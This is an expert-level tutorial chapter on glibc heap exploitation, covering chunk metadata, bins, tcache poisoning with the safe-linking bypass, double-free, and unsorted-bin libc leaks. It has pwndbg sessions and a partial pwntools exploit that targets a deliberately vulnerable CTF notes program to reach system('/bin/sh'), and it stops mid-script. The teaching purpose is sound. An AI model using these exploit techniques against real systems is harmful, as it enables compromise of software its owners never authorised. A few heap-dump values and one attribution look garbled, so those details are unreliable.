





**Level:** Expert · **Track:** Vulnerability Research · **Read time:** 300 min

This is Chapter 6 of the Binary Exploitation notebook. Chapters 2–5 lived on the stack: contiguous frames, saved return addresses, a canary in the way. The **heap** is a different world — a dynamically-managed pool of memory handed out by `malloc` and returned by `free`, with rich metadata the allocator keeps *inline, next to your data*. That inline metadata is the attack surface. Corrupt it and you don't just overwrite a return address; you make `malloc` itself hand you a pointer to anywhere in memory, turning a single freed object into an arbitrary read/write and then code execution.

Heap exploitation has a reputation for being hard, and it is deeper than the stack — but it is *systematic*. Almost every technique reduces to one idea: **the allocator trusts its own metadata, so if you control that metadata you control what `malloc` returns.** Once you internalise the chunk layout and the bin lists, the named techniques (tcache poisoning, unsorted-bin leak, fastbin dup, UAF) stop being magic incantations and become obvious consequences of the data structures.

A quick orientation on *why this allocator*: glibc's `ptmalloc2` is a descendant of Doug Lea's `dlmalloc`, tuned for multithreading. It is the allocator behind essentially every Linux desktop and server process, so its internals are the single most reused body of knowledge in binary exploitation — the same chunk/bin concepts recur (with different names) in Windows' segment heap, macOS' `nano`/`scalable` zones, jemalloc (FreeBSD, Firefox), and tcmalloc (Google). Learn ptmalloc deeply and you can reason about all of them.

This chapter targets glibc's `ptmalloc2` (the allocator on virtually every Linux system) and focuses on **modern glibc (2.31–2.38+)** where the `tcache` dominates and safe-linking is in play, while explaining the classic pre-tcache techniques because they still appear and illuminate the mechanics. Everything targets binaries you own or are authorised to test; proving a heap bug is a *controllable* arbitrary write (not merely a crash) is exactly the VR work that turns a "memory corruption" ticket into a critical, prioritised fix.

---

## Part 1: Why the Heap, and What Makes It Exploitable

The stack is automatic: the compiler allocates and frees frames for you, layout is fixed at compile time. The heap is *manual and dynamic*: your program asks for `n` bytes at runtime (`malloc(n)`), uses them, and gives them back (`free(p)`). To manage this efficiently the allocator must track, for every live and freed block: how big it is, whether it's free, and where the neighbouring blocks are. glibc stores this bookkeeping **inline** — a small header immediately before each chunk of user data, and, for *freed* chunks, forward/backward pointers written *into the user data area itself*.

That design is fast (no separate metadata table, great cache locality) but security-fragile: a linear overflow of one allocation runs straight into the *next chunk's header*; a freed chunk's user area holds *allocator pointers* an attacker can read (leak) or overwrite (redirect allocations). The four canonical bugs all exploit this inline trust:



The end state is almost always the same: **make a future `malloc` return a pointer to a location you chose**, write to it, and hijack control (a function hook, a GOT entry, a saved return address, a `_IO_FILE` vtable). The differences between techniques are just *how* they corrupt the metadata to reach that state.

---

## Part 2: Chunks — the Anatomy of a Heap Allocation

Everything starts with the **chunk**, glibc's unit of allocation. When you call `malloc(0x18)`, glibc gives you a pointer into a chunk that looks like this:

```
                    chunk start (what free() sees)
     +--------------------------------------------------+
     |  prev_size (8 bytes)                              |  only meaningful if prev chunk is free
     +--------------------------------------------------+
     |  size (8 bytes)  [ ... flags in low 3 bits ]      |  size of THIS chunk (incl header)
     +--------------------------------------------------+  <- malloc() returns THIS address (user data)
     |  user data ...                                    |
     |  (when FREE: fd, bk pointers live here)           |
     |  ...                                              |
     +--------------------------------------------------+
     |  next chunk's prev_size / user data ...           |
```

Key facts you must have memorised:

- **`malloc` returns a pointer to the *user data*, which is 16 bytes (two words) after the chunk start.** The header (`prev_size`, `size`) sits *before* the returned pointer. So `chunk_addr = user_ptr - 0x10`.
- **The `size` field includes the header and is 16-byte aligned**, so its low 4 bits are always zero — glibc reuses the low 3 bits as **flags**:

| Flag | Bit | Meaning |
|---|---|---|
| `PREV_INUSE` (P) | 0x1 | the *previous* (lower-address) chunk is in use; if 0, prev is free and `prev_size` is valid |
| `IS_MMAPPED` (M) | 0x2 | chunk was allocated via `mmap` (large requests), not the arena |
| `NON_MAIN_ARENA` (A) | 0x4 | chunk belongs to a non-main arena (threaded) |

So a `size` value of `0x21` means "chunk is 0x20 bytes, and the previous chunk is in use (P=1)". Reading `0x21`, `0x91`, `0x411` in a heap dump, you mentally strip the low bits: real sizes `0x20`, `0x90`, `0x410`.

- **`prev_size` is *shared real estate*.** When the previous chunk is *in use*, its `prev_size` slot is actually usable by that previous chunk as extra user space (this is why a `malloc(0x18)` fits in a `0x20` chunk — 8 header + 0x18 data reuses the next chunk's prev_size). This overlap is the seed of off-by-one/"poison null byte" attacks.

- **When a chunk is FREED, the allocator writes pointers into its user-data area** — `fd` (forward) and `bk` (backward) for the bin's doubly/singly linked list. Those pointers are what you leak (they point into libc or the heap) and what you overwrite (to redirect the allocator).

### Seeing it live in pwndbg

```text
pwndbg> vis_heap_chunks        # colourised chunk-by-chunk view of the heap
0x555555559290  0x0000000000000000  0x0000000000000021   ........!.......   <- size 0x20, P=1
0x5555555592a0  0x4141414141414141  0x4141414141414141   AAAAAAAAAAAAAAAA   <- user data
0x5555555592b0  0x0000000000000000  0x0000000000000021   ........!.......
pwndbg> heap                   # list all chunks with their bins
pwndbg> malloc_chunk 0x555555559290    # decode one chunk's header/flags
```

`vis_heap_chunks` is the single most important heap-debugging command — it renders sizes, flags, and highlights freed chunks and their `fd`/`bk`. Keep it open constantly while developing a heap exploit.

---

## Part 2b: Arenas, Threads, and the Big Picture

Before the bins, one structural layer: the **arena**. An arena is a top-level allocator context — a `struct malloc_state` holding the bin heads, the top chunk, and a lock. The **main arena** lives inside libc's data segment (that's why unsorted-bin `fd`/`bk` pointers leak a *libc* address). When multiple threads allocate concurrently, glibc spins up additional **non-main arenas** (up to `8 * ncores` by default) carved from `mmap`'d regions, each with its own bins and lock, so threads don't serialise on one lock. A chunk allocated from a non-main arena has the `NON_MAIN_ARENA` (A) flag set in its `size`.



Why it matters for exploitation:

- **The `main_arena` is at a fixed offset inside libc**, so an unsorted-bin `fd` from the main arena → libc base. From a *non-main* arena, the same leak yields an mmap address, not libc — know which arena you're in.
- **tcache is per-thread, independent of the arena**, and sits at the start of *each thread's* heap. Multi-threaded targets have multiple tcaches; your poisoning only affects the tcache of the thread you're running in.
- **`NON_MAIN_ARENA` flag mismatches** can trip checks if you forge chunks — keep flags consistent with the arena you're targeting.

For the labs in this chapter we stay single-threaded (main arena), which is the common CTF and the clearest teaching case; just know that a threaded server changes *which* address your leaks reveal and *which* tcache you corrupt.

---

## Part 3: The Bins — Where Freed Chunks Go

When you `free` a chunk, glibc doesn't return it to the OS; it caches it in a **bin** (a free-list) so the next `malloc` of a similar size is fast. There are five bin families, and *which* bin a freed chunk lands in determines *which* technique applies. This is the single most important table in the chapter:

| Bin | Sizes (x86-64) | Structure | Order | Key exploit property |
|---|---|---|---|---|
| **tcache** | ≤ 0x408 (per-thread, 7 chunks/size) | singly-linked (`fd` only) | LIFO | modern #1 target: poisoning gives arbitrary alloc; safe-linking since 2.32 |
| **fastbins** | ≤ 0x80 | singly-linked (`fd` only) | LIFO | fastbin dup; minimal consistency checks |
| **unsorted bin** | any (transit) | doubly-linked (`fd`/`bk`) | FIFO | **libc leak**: a lone freed chunk's `fd`/`bk` point into libc's `main_arena` |
| **small bins** | < 0x400 | doubly-linked | FIFO | exact-size caching; unlink attacks (classic) |
| **large bins** | ≥ 0x400 | doubly-linked + `fd_nextsize`/`bk_nextsize` | sorted | large-bin attack (write a heap ptr to a chosen addr) |

The lifecycle of a freed chunk:



Two behaviours drive most exploits:

1. **tcache first.** On modern glibc, small frees go to the per-thread tcache *before* fastbins/unsorted. The tcache has *weak* integrity checks (a `key` field since 2.29, safe-linking since 2.32) which is why **tcache poisoning is the default modern technique**.
2. **Unsorted-bin leak.** When you free a chunk too big for tcache/fastbin (e.g. `0x420`), it goes to the unsorted bin as the *only* member; glibc sets its `fd` and `bk` to point at a spot inside libc's `main_arena`. If you can then *read* that chunk's user area (via a UAF or an overlapping read), you leak a **libc address** — defeating ASLR. This is the canonical heap info-leak.

---

## Part 4: The tcache in Detail (Modern glibc)

Since glibc 2.26 the **tcache** (thread-local caching) sits in front of the other bins for speed. It is the primary target on any glibc ≥ 2.26, so understand it precisely.

- **Per-thread**, stored in a `tcache_perthread_struct` at the start of the heap. It has an array of 64 singly-linked lists (`entries[]`), one per size class, plus a `counts[]` array.
- Each list holds up to **7** chunks of that size (`mp_.tcache_count = 7`). The 8th free of that size overflows into fastbin/unsorted.
- A tcache entry is a `tcache_entry { struct tcache_entry *next; struct tcache_perthread_struct *key; }` — `next` is the singly-linked `fd`; `key` (since 2.29) is a double-free canary.

### tcache poisoning — the workhorse

The attack: corrupt a freed tcache chunk's `next` pointer to point at a **target address**. Then two `malloc`s of that size: the first returns the legit chunk, the second returns *your target address as if it were a chunk* — an **arbitrary allocation**. Write to it → arbitrary write.

```
free(A); free(B);            // tcache list: head -> B -> A -> NULL   (B.next = A)
edit(B, next = &target);     // corrupt B.next  (UAF or overflow)
malloc(sz);  -> returns B
malloc(sz);  -> returns &target   <-- allocator hands you the target!
```



### Safe-linking (glibc ≥ 2.32) — and its bypass

To harden tcache/fastbin `next` pointers, glibc 2.32 introduced **safe-linking**: the `next` pointer is stored *obfuscated* as `next XOR (chunk_addr >> 12)`. So you can't just write a raw target address — you must XOR it with `(address_of_the_free_chunk >> 12)`. The bypass is simple once you know a heap address: compute the mask yourself.

```python
def encrypt(pos, ptr):     # pos = address of the chunk whose 'next' you're forging
    return (pos >> 12) ^ ptr
# to make B.next point at target, write encrypt(addr_of_B, target) into B's fd slot
```

You obtain `addr_of_B` (a heap address) from a heap leak — often the same UAF read, or the tcache `key` field which is a heap pointer. **This is why a heap-address leak is a prerequisite for tcache poisoning on modern glibc.** The `key` field also defends against double-free: freeing a chunk whose `key` already equals the tcache struct pointer triggers a "double free detected in tcache 2" abort — bypassed by first overwriting `key` to something else.

| glibc | tcache checks | What you must do |
|---|---|---|
| 2.26–2.28 | none on `next` | write raw target into `next` |
| 2.29–2.31 | `key` double-free guard | clear/change `key` before re-free |
| ≥ 2.32 | `key` + **safe-linking** | leak a heap addr, XOR-encode `next`; clear `key` |
| ≥ 2.34 | `__free_hook`/`__malloc_hook` **removed** | pivot to `_IO_FILE`/FSOP or GOT/stack targets |

---

### tcache_perthread_struct: the highest-value single target

There is one target even better than a hook: the **`tcache_perthread_struct`** itself, which sits at the very start of the heap (the first chunk). It contains `counts[64]` (a byte per size class) and `entries[64]` (the list heads). If your arbitrary write or poison lands *here*, you control the allocator's own bookkeeping:

- Overwrite an `entries[k]` head → the very next `malloc(size_k)` returns whatever pointer you wrote, with **no second allocation needed** (you skip the two-malloc dance).
- Overwrite a `counts[k]` to a large value → make glibc believe the tcache has entries it doesn't, changing which path a free/alloc takes.

Because the struct is the first heap chunk, a heap-address leak (which you need for safe-linking anyway) tells you its exact address. Many modern heap exploits poison *one* tcache list to allocate the `tcache_perthread_struct`, then rewrite all 64 heads at once — turning a single primitive into a fully controlled allocator. Keep it in mind as the "boss key" of tcache exploitation.

```python
# after a heap leak, poison to return the tcache struct, then rewrite heads wholesale
tcache_struct = heap_base + 0x10
# ... poison so malloc returns tcache_struct ...
new_meta  = b'\x07' * 64                    # counts[]: pretend every bin has entries
new_meta += p64(target1) + p64(target2)...  # entries[]: each head -> a chosen address
edit(alloc_of_tcache_struct, new_meta)
# now malloc(size1) -> target1, malloc(size2) -> target2, ... in one shot each
```

---

## Part 5: The Classic Bugs and Their Primitives

### 5.1 Heap overflow

A write past the end of a heap allocation spills into the **next chunk's header** (`prev_size`, `size`) and, if it's free, its `fd`/`bk`. Consequences: forge a `size` to make the allocator mis-bin a chunk (chunk overlap), or overwrite a freed neighbour's `fd` to poison a bin. The primitive is "control adjacent chunk metadata".

### 5.2 Use-After-Free (UAF)

The program `free`s a chunk but keeps and *uses* the dangling pointer (reads or writes it). Because a freed chunk's user area holds `fd`/`bk`/`key`, a UAF **read** leaks allocator pointers (heap address from `key`/`next`; libc address if it's in the unsorted bin) and a UAF **write** lets you corrupt those pointers directly — the cleanest route to tcache poisoning (no overflow needed). UAF is the most common modern heap bug and the basis of Lab B.

### 5.3 Double-Free

`free(p)` twice. Pre-tcache this corrupts the fastbin into a cycle enabling "fastbin dup"; with tcache it trips the `key` guard unless you bypass it. A successful double-free places the *same* chunk in a bin twice, so two allocations return the same address — you then hold two pointers to one chunk, one of which you can edit to poison the other's metadata. It's a route to the same arbitrary-alloc primitive.

### 5.4 Off-by-one / poison null byte

A single-byte overflow (often a NUL from a bad `strcpy`/`read(n)` where n is length not size) into the next chunk's `size` low byte. Clearing the `PREV_INUSE` bit or shrinking a size lets you trigger **backward consolidation** over a chunk you still hold, creating **overlapping chunks** — a powerful primitive that hands you a chunk overlapping a live object.

| Bug | Primitive it yields | Typical modern use |
|---|---|---|
| Heap overflow | control next chunk's size/fd | chunk overlap; poison a bin |
| UAF (read) | leak heap/libc pointer | defeat ASLR; get heap addr for safe-linking |
| UAF (write) | overwrite freed `next`/`fd` | tcache poisoning → arbitrary alloc |
| Double-free | duplicate a chunk in a bin | overlapping pointers → poison |
| Off-by-one NUL | shrink size → consolidate | overlapping chunks over a live object |

---

## Part 5b: A Full Heap Walkthrough in pwndbg

Reading about chunks is not the same as *seeing* them move between bins. Here is a complete, annotated pwndbg session that allocates, frees, and inspects — the mental model you must build before any exploit.

```text
$ gdb -q ./note
pwndbg> run
# --- allocate three 0x50-ish chunks (request 0x48 -> 0x50 chunk) ---
pwndbg> # (via the program menu: add(0,0x48), add(1,0x48), add(2,0x48))
pwndbg> vis_heap_chunks
0x5555555592a0  0x0000000000000000  0x0000000000000021   tcache_perthread hdr
0x5555555592c0  0x0000000000000000  0x0000000000000291   <- tcache struct chunk (0x290)
...
0x555555559550  0x0000000000000000  0x0000000000000051   ........Q.......   chunk0 size 0x50 P=1
0x555555559560  0x6161616161616161  0x6161616161616161   aaaaaaaaaaaaaaaa
0x5555555595a0  0x0000000000000000  0x0000000000000051   chunk1
0x5555555595f0  0x0000000000000000  0x0000000000000051   chunk2
0x555555559640  0x0000000000000000  0x0000000000020991   <- TOP chunk (wilderness)
```

Note the **top chunk** with a huge size (`0x20991`): that's the wilderness all allocations carve from. Now free chunk1 and watch it enter the tcache:

```text
pwndbg> # del(1)
pwndbg> bins
tcachebins
0x50 [  1]: 0x5555555595a0 -> 0x0            <- chunk1 now heads tcache[0x50], next=NULL
fastbins / unsortedbin / smallbins / largebins: empty
pwndbg> vis_heap_chunks
0x5555555595a0  0x0000000000000000  0x0000000000000051
0x5555555595b0  0x0000000000000000  0x0000555555559   <- KEY field = heap pointer!
                 ^ next (fd) = NULL   ^ key -> tcache struct (a HEAP address -> leak)
```

Two things to see: chunk1's user area now holds `next` (0, since it's the only entry) and **`key`** (a heap address pointing at the `tcache_perthread_struct`). That `key` is your **heap leak** for safe-linking. Free chunk0 too:

```text
pwndbg> # del(0)
pwndbg> bins
tcachebins
0x50 [  2]: 0x555555559550 -> 0x5555555595a0 -> 0x0   <- LIFO: chunk0 -> chunk1
```

The list is **LIFO**: the most-recently-freed (chunk0) is the head, its `next` (`fd`) points at chunk1. This is exactly the list tcache poisoning corrupts — overwrite chunk0's `next` and the second allocation follows it wherever you point. Now allocate once and watch chunk0 come back off the head:

```text
pwndbg> # add(3, 0x48)
pwndbg> bins
0x50 [  1]: 0x5555555595a0 -> 0x0     <- head popped; chunk1 is head again
```

Finally, demonstrate the unsorted bin with a big chunk:

```text
pwndbg> # add(4, 0x420) ; add(5,0x20 guard) ; del(4)
pwndbg> bins
unsortedbin
all: 0x555555559a00 -> 0x7ffff7fao_bin_addr <- fd points into main_arena (LIBC!)
pwndbg> p/x (long)&main_arena
$1 = 0x7ffff7fa0b20
pwndbg> # leaked fd - (that main_arena bin offset) = libc base
```

**This session is the whole chapter in miniature:** frees move chunks into bins, the user area holds `fd`/`key`, LIFO order determines poisoning, and a big free leaks libc. Run it yourself once and the techniques below become obvious.

---

## Part 5c: fastbin dup and tcache dup (Double-Free in Practice)

Double-free is worth a concrete worked example because the two paths (fastbin vs tcache) differ.

### tcache dup (glibc 2.26–2.28: trivial; 2.29+: needs key bypass)

On glibc without the `key` guard, freeing the same chunk twice puts it in the tcache list *twice*, pointing at itself:

```text
free(A); free(A);          // tcache[sz]: A -> A -> ...  (A.next = A)
malloc(sz);  -> A          // pop A; but A is still in the list
edit(A, next = &target);   // now write A.next = target
malloc(sz);  -> A          // pop A again
malloc(sz);  -> &target    // allocator hands you target
```

On glibc ≥ 2.29 the second `free(A)` aborts:

```
free(): double free detected in tcache 2
```

because `A.key == tcache_struct`. The bypass: between the two frees, corrupt `A.key` (via UAF/overflow) so it no longer equals the tcache pointer:

```python
free(A)
edit(A, b'\x00'*8 + b'\x00'*8)   # clear next AND key
free(A)                          # key no longer matches -> passes the check
```

### fastbin dup (the classic, pre-tcache or tcache-full path)

Fastbins never had a `key`; their only defence is that the *same chunk cannot be at the head of the fastbin twice in a row*. You defeat that by freeing a second chunk in between:

```text
free(A); free(B); free(A);   // legal: A not at head when re-freed
                             // fastbin: A -> B -> A
malloc(); -> A
malloc(); -> B
malloc(); -> A  (again)      // two live pointers to A
```

The check that makes this work/fail is `double free or corruption (fasttop)` — it only inspects the *current* head, so `A,B,A` slips through. Modern exploitation reaches fastbins by first filling the tcache (7 frees) so the 8th lands in the fastbin. A `find_fake_fast` in pwndbg helps locate a nearby qword usable as a fake `size` so a poisoned fastbin `fd` passes the size check.

| Path | Defence | Bypass |
|---|---|---|
| tcache dup (≥2.29) | `key` double-free guard | clear `key` between frees |
| tcache poison (≥2.32) | safe-linking | XOR `next` with `chunk>>12` (heap leak) |
| fastbin dup | `fasttop` head check | free a second chunk in between (A,B,A) |
| fastbin alloc | `size` sanity check | forge/point at a valid fake size (`find_fake_fast`) |

---

## Part 6: Leaking libc from the Heap (Unsorted Bin)

Before you can write `system` or a hook, you need libc's base. The heap gives it to you cleanly via the **unsorted bin**:

1. Allocate a chunk **too large for tcache** (> 0x408), e.g. `malloc(0x420)`; allocate a small "guard" chunk after it so the big one doesn't merge with the top chunk on free.
2. `free` the big chunk. With tcache full/ineligible, it enters the **unsorted bin** as the only member. glibc sets its `fd` and `bk` to `&main_arena.bins[...]` — an address *inside libc*.
3. If you can **read** that freed chunk's user area (a UAF read, or re-`malloc` it without clearing and print), you read a libc pointer. Subtract the known offset of that `main_arena` slot → **libc base**.

```python
# pattern
a = alloc(0x420)          # unsorted-bin-eligible size
b = alloc(0x20)           # guard so `a` doesn't consolidate with top
free(a)                   # a -> unsorted bin; a.fd/bk now point into main_arena
leak = u64(read(a)[:8])   # UAF read of a.fd  (a libc address)
libc.address = leak - 0x1ecbe0   # offset of main_arena bin slot in THIS libc
```

The exact subtrahend (`0x1ecbe0` here) is the offset from libc base to the `main_arena` bin the unsorted chunk points at — measure it once with `pwndbg> p &main_arena` and the leaked value under ASLR-off. A **small/large-bin** chunk gives the same kind of libc leak; the unsorted bin is just the easiest to arrange.

```mermaid
sequenceDiagram
    participant Prog
    participant Heap
    participant libc as main_arena (in libc)
    Prog->>Heap: a = malloc(0x420); b = malloc(0x20) guard
    Prog->>Heap: free(a)
    Heap->>libc: a.fd = a.bk = &main_arena.bins[k]
    Prog->>Heap: read(a)  (UAF)
    Heap-->>Prog: a.fd  == libc address
    Note over Prog: libc_base = leak - offset(main_arena bin)
```

---

## Part 7: Tooling — pwndbg heap commands, glibc source, how2heap

GDB/pwndbg and pwntools were taught in Chapters 1–3; here is the heap-specific tooling you must add.

### pwndbg heap suite

```text
pwndbg> heap                 list all chunks (addr, size, flags, in-use/free)
pwndbg> heap -v              verbose, includes bin membership
pwndbg> bins                 dump tcache / fast / unsorted / small / large bins
pwndbg> tcache               decode the tcache_perthread_struct (counts + entries)
pwndbg> vis_heap_chunks      colourised chunk map (THE heap command)
pwndbg> malloc_chunk <addr>  decode one chunk's header + flags
pwndbg> find_fake_fast <tgt> find a size value that lets <tgt> pass fastbin size checks
pwndbg> p main_arena         the arena struct (bin heads -> libc leak offsets)
pwndbg> p &__free_hook       hook addresses (glibc < 2.34)
```

### how2heap — the technique corpus

**What it is:** shadow-file's `how2heap` is a repository of minimal, self-contained programs each demonstrating one heap technique (tcache poisoning, fastbin dup, unsorted-bin attack, house-of-*, etc.) with comments. **Why it matters:** it is the canonical map from "technique name" to "exact allocation sequence", per glibc version. When you identify your primitive, find the matching how2heap file and adapt it. Clone and build against your target's glibc:

```bash
$ git clone https://github.com/shellphish/how2heap && cd how2heap
$ make                      # builds each technique; run e.g. ./glibc_2.35/tcache_poisoning
```

### libc version identification

Heap layouts and checks differ *per glibc version*, so you must know the target's exactly:

```bash
$ ./libc.so.6                      # prints the version banner
GNU C Library (Ubuntu GLIBC 2.35-0ubuntu3.8) stable release version 2.35.
$ strings libc.so.6 | grep 'GNU C Library'
```

Match your how2heap file and offsets to that version. This is not optional — a `tcache_poisoning` that works on 2.31 may need safe-linking handling on 2.35.

---

## Part 8: Lab A — tcache Poisoning to `__free_hook` → `system`

The canonical modern heap exploit against glibc 2.31 (hooks still present). A menu-driven program with alloc/free/edit/view and a UAF gives us everything. Goal: poison the tcache so `malloc` returns `&__free_hook`, overwrite it with `system`, then `free` a chunk containing `"/bin/sh"` → `system("/bin/sh")`.

### 8.1 The program (menu heap, glibc 2.31)

```c
// note.c — classic CTF "notes" heap (alloc/free/edit/show), has a UAF (no ptr clear on free)
// chunks[i] is NOT nulled on free  -> use-after-free
void add(i, size){ chunks[i] = malloc(size); read(0, chunks[i], size); }
void del(i){ free(chunks[i]); }           // BUG: chunks[i] left dangling
void edit(i, size){ read(0, chunks[i], size); }  // UAF write
void show(i){ write(1, chunks[i], 0x20); }       // UAF read (leak)
```

### 8.2 The menu wrappers (write these once, reuse everywhere)

Every menu-heap exploit begins with clean helper functions that map Python calls to the program's menu. Writing these carefully saves hours — a single off-by-one in the prompt matching desyncs the whole script:

```python
#!/usr/bin/env python3
from pwn import *
elf  = context.binary = ELF('./note')
libc = ELF('./libc.so.6')      # glibc 2.31
p = process('./note')

def menu(choice):
    p.sendlineafter(b'> ', str(choice).encode())

def add(idx, size, data=b'a'):
    menu(1)
    p.sendlineafter(b'index: ', str(idx).encode())
    p.sendlineafter(b'size: ',  str(size).encode())
    p.sendafter(b'data: ', data)          # send (not sendline) to control trailing bytes

def free(idx):
    menu(2)
    p.sendlineafter(b'index: ', str(idx).encode())

def edit(idx, data):
    menu(3)
    p.sendlineafter(b'index: ', str(idx).encode())
    p.sendafter(b'data: ', data)          # UAF write happens here

def show(idx):
    menu(4)
    p.sendlineafter(b'index: ', str(idx).encode())
    return p.recvline()                    # UAF read / leak returned here
```

Two habits worth forming: use `sendafter`/`send` (not `sendlineafter`/`sendline`) when writing chunk data so a stray `\n` doesn't clobber the byte after your payload; and always `recvline()` and parse in `show()` so leaks are structured. With the helpers in place, the exploit body is short and readable:

### 8.3 Exploit body

```python

# --- Step 1: leak libc via unsorted bin ---
add(0, 0x420)          # unsorted-eligible
add(1, 0x20)           # guard against top consolidation
free(0)                # chunk 0 -> unsorted bin; fd/bk point into main_arena
libc.address = u64(show(0)[:8].ljust(8, b'\x00')) - 0x1ecbe0
log.success('libc base = %#x', libc.address)
assert libc.address & 0xfff == 0
free_hook = libc.symbols['__free_hook']
system    = libc.symbols['system']

# --- Step 2: tcache poisoning (glibc 2.31: NO safe-linking, key double-free guard only) ---
add(2, 0x30)
add(3, 0x30)
